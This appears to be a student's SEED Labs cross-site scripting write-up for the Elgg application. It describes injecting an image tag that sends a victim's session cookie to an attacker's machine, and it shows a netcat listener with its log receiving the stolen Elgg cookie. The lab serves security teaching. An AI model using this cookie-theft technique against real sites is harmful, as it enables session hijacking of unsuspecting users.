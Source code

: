 Similar to last time, a popup appeared. However, it is displaying the cookie information instead of a message. Similar to last time, I tried the code in different fields and everything was the same as last time.

### Task 3:
Although task 2 was cool, the cookie information is displayed to the victim, so the attacker could not actually see the information to do any damage. This time, we are trying to pass the cookie information to the attack's machine:
![attack](Task3-1.PNG)
```
[03/10/21]seed@VM:~/.../lab05$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 33100
GET /?c=Elgg%3Dsjf4dg71i0hbrpvj34sl8b78uo HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.xsslabelgg.com/profile/alice
```
This time, the attacker, netcat, is waiting on port 5555 for the response. In our javascript code, we included a image tag that tells it to go the location, which is our local host this time, and in port 5555. However, the cookie information is passed to the location while Elgg request for the "image". Therefore, we have recieved the cookie infomation on the attack's end.
